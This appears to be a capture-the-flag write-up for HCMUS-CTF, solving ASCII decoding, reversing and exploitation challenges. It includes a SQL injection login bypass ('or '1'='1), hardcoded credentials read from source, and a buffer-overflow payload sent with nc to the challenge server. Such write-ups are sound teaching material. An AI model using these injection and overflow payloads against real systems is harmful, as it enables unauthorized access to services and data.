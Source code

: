 # HCMUS-CTF
## Discord
- Go to https://discord.com/channels/714108446370299925/717326910908137482 the you see:
- Flag for discord: HCMUS-CTF{089 111 085 095 107 110 060 062 119 095 100 105 115 099 111 114 068 095 064 110 100 095 085 095 075 110 048 119 095 065 083 067 073 073}
- This ascii of characters. Decode:
- Flag is: HCMUS-CTF{YoU_kn<>w_discorD_@nd_U_Kn0w_ASCII}
## Baby SQL
- Challenges at: http://159.65.13.76:1339/ 
- This is basic SQL injection. Username: admin. Pass:'or '1'='1.
- The flag is: HCMUS-CTF{Sh0uld_N0tz_Conc4ten4te_S+r1ng_SQQLLL}
## TellMe
- Open file tellme.c
- You will see this code:
<pre><code>
	if(userid == 0x3211 && !strcmp("sUpErPassHCMUS\n", passwd)){
		printf("Wellcome back! Aministrator ^_^\n");
		fflush(stdout);
		fflush(stdin);
		system("/bin/cat flag");
		exit(0);	
	}
</code></pre>
- UserID: 12817
- Password: sUpErPassHCMUS
- Flag is: HCMUS-CTF{Ohhh~Just_give_me_the_credential!!Nah}
## StackString
- Decompiler stackstring with Ghidra Tool:
- In function main you will see:
- ![alt text](https://github.com/1712249/HCMUS-CTF/blob/master/stackstring.png)
- Hexdecode you get:
- local_50:}3
- local_70:_Kc4tS{F
- local_68:G_gn1rtS
- local_58:uq1nhcet
- local_78:TC-SUMCH
- local_60:_dlo_D00
- Flag is: HCMUS-CTF{St4cK_Str1ng_G00D_old_techn1qu3}
## FlowMe
- Openfile flowme.c.
- You will see this code: 
<pre><code>
int secret_func(){
    system("/bin/cat flag.txt");
    return 0;
}

int authentication(char *password) {
    char password_buffer[256];
    strcpy(password_buffer, password);
    if(strcmp(password_buffer, "this_is_a_password") == 0)
        return 1;
    
    return 0;
}
</code></pre>
- I guess buffer overflow from function strcpy at authenticaiton to function secret_func.
- Use GDB and [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) this function is overflow at 256 and Adress secret_func is: 0x00000000004007ea 
- This is payload: 
<pre><code>
	echo $(python -c 'print "A" * 264 +"\xea\x07\x40\x00\x00\x00\x00\x00"') | nc 159.65.13.76 33103
</code></pre>

